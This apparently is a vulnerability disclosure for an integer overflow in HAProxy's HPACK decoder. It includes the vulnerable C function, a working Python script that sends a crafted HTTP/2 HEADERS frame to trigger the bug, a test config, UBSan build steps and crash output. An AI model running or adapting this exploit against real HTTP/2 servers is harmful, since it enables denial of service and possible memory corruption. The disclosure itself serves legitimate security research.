

# HAProxy HPACK Integer Overflow

## Description

The **get_var_int()** function in `/src/hpack-dec.c` is vulnerable to integer overflow due to the complete absence of bounds checking on bit shift operations when decoding variable-length integers (varints) in HTTP/2 HPACK headers. The function performs left shifts with exponents that can exceed 32 on 32-bit unsigned integers, resulting in **undefined behavior** which can lead to memory corruption, bounds check bypasses, buffer over-reads, and DoS. The attack can be performed remotely without any form of authentication or verification on any HAProxy instance with HTTP/2 enabled.

## Details

*   **Vendor**: HAProxy Technologies

*   **Product**: HAProxy

*   **Affected Version**: 3.4-dev2-c17ed6-4 (and all versions with HTTP/2 support)

*   **Source Repository**: https://github.com/haproxy/haproxy

*   **Component**: `/src/hpack-dec.c` (get_var_int function, HPACK decoder for HTTP/2)

*   **Vulnerability Type**: 
*. Integer Overflow (CWE-190), 
*. Undefined Behavior (CWE-758),

*   **CVE ID**: Requested

*   **Reported by**: dwbruijn

## PoC

The vulnerability is in the unbounded left shift operations with no validation that `shift` remains within safe bounds for a 32-bit integer.

### Vulnerable Code (`src/hpack-dec.c:55-87`)

```c
static uint32_t get_var_int(const uint8_t **raw_in, uint32_t *len_in, int b)
{
    uint32_t ret = 0;
    int len = *len_in;
    const uint8_t *raw = *raw_in;
    uint8_t shift = 0;  // ❌ NO BOUNDS CHECK

    len--;
    ret = *(raw++) & ((1 << b) - 1);
    if (ret != (uint32_t)((1 << b) - 1))
        goto end;

    while (len && (*raw & 128)) {
        ret += ((uint32_t)(*raw++) & 127) << shift;  // ⚠️ LINE 68: UNBOUNDED SHIFT
        shift += 7;  // ⚠️ LINE 69: No overflow check
        len--;
    }

    /* last 7 bits */
    if (!len)
        goto too_short;
    len--;
    ret += ((uint32_t)(*raw++) & 127) << shift;  // ⚠️ LINE 77: UNBOUNDED SHIFT

 end:
    *raw_in = raw;
    *len_in = len;
    return ret;
}
```

### Exploit
 Send an HTTP/2 HEADERS frame with HPACK-encoded header containing a malicious varint (7 bytes: `0x7F 0xFF 0xFF 0xFF 0xFF 0xFF 0x7F`) to trigger shift exponent of 35 on a 32-bit unsigned integer.

```python
#!/usr/bin/env python3
import socket, ssl, struct, time

def exploit():
    # Malicious varint: 0x7F + 5×0xFF + 0x7F → causes shift=35
    malicious_varint = bytes([0x7F, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0x7F])

    # HPACK: Literal header
    hpack = bytearray([0x00])
    hpack.extend(malicious_varint)  # Name length (TRIGGERS BUG)
    hpack.extend(b'x-header-name')
    hpack.append(0x05)
    hpack.extend(b'value')

    # HTTP/2 HEADERS frame
    frame = struct.pack('!I', len(hpack))[1:]  # 3 bytes length
    frame += struct.pack('!B', 0x01)  # type=HEADERS
    frame += struct.pack('!B', 0x05)  # flags
    frame += struct.pack('!I', 1)     # stream_id=1

    ctx = ssl.create_default_context()
    ctx.check_hostname = False
    ctx.verify_mode = ssl.CERT_NONE
    ctx.set_alpn_protocols(['h2'])

    sock = socket.socket()
    ssock = ctx.wrap_socket(sock, server_hostname='localhost')
    ssock.connect(('localhost', 8443))

    # HTTP/2 handshake
    ssock.sendall(b'PRI * HTTP/2.0\r\n\r\nSM\r\n\r\n')
    time.sleep(0.1)

    # SETTINGS frame
    settings = struct.pack('!I', 0)[1:] + struct.pack('!BBI', 0x04, 0x00, 0)
    ssock.sendall(settings)
    ssock.recv(4096)

    # SETTINGS ACK
    settings_ack = struct.pack('!I', 0)[1:] + struct.pack('!BBI', 0x04, 0x01, 0)
    ssock.sendall(settings_ack)
    time.sleep(0.2)

    # Send malicious HEADERS
    ssock.sendall(frame + hpack)
    ssock.recv(4096)
    ssock.close()

exploit()
```

### Triggering the vulnerability

#### HAProxy config (all we need is to enable HTTP/2)

I used the following config file:
```
global
    # Run in foreground for easier debugging
    # daemon
    maxconn 256

defaults
    mode http
    timeout connect 5000ms
    timeout client 50000ms
    timeout server 50000ms
    option httplog

# Frontend accepting HTTP/2 connections
frontend h2_frontend
    bind :8443 ssl crt /tmp/haproxy-test.pem alpn h2,http/1.1
    # Accept both HTTP/1.1 and HTTP/2

    # Log all requests
    option httplog
    log stdout format raw local0 debug

    # Default backend
    default_backend test_backend

# Simple backend
backend test_backend
    balance roundrobin
    server test1 127.0.0.1:8000 check
```

```bash
# Build HAProxy with UBSan
make clean
make -j 4 TARGET=linux-glibc USE_OPENSSL=1 USE_THREAD=1 \
     DEBUG="-DDEBUG_HPACK -g -O0" \
     CFLAGS="-fsanitize=undefined -fno-omit-frame-pointer" \
     LDFLAGS="-fsanitize=undefined"

# Run HAProxy with config file provided above
export UBSAN_OPTIONS="print_stacktrace=1"
./haproxy -f test-h2.cfg -d

# Execute exploit
python3 exploit.py
```

**Output - UBSan detects undefined behavior:**

```
[HPACK-DEC] 00000000: 00 7f ff ff ff ff ff 7f - 78 2d 65 76 69 6c 2d 68   ........x-evil-h
[HPACK-DEC] 00000010: 65 61 64 65 72 2d 6e 61 - 6d 65 05 76 61 6c 75 65   eader-name.value

src/hpack-dec.c:77:36: runtime error: shift exponent 35 is too large for 32-bit type 'unsigned int'
    #0 0xaaaad7b54ab0 in get_var_int src/hpack-dec.c:77
    #1 0xaaaad7b55bb4 in hpack_decode_frame src/hpack-dec.c:262
    #2 0xaaaad5b7eb54 in h2c_dec_hdrs src/mux_h2.c:6155
    #3 0xaaaad5b38ef4 in h2c_frt_handle_headers src/mux_h2.c:3550
    #4 0xaaaad5b509e4 in h2_process_demux src/mux_h2.c:4496
```



## Potential Impact

Running HAProxy without UBSan (sanitization) will lead to out-of-bounds memeory access downstream due to the corrupted **nlen** variable which is being used in later operations which can lead to DoS, heap corruption, information disclosure, or even possibly RCE using heap feng shui + modern bypass technique.

```c
name = ist2(raw, nlen);  // Creates string view with WRONG length
                         // Points to buffer but says it's nlen bytes long

raw += nlen;             // ⚠️ CRITICAL: Advances pointer by corrupted amount
len -= nlen;             // ⚠️ Subtracts corrupted value from remaining bytes
```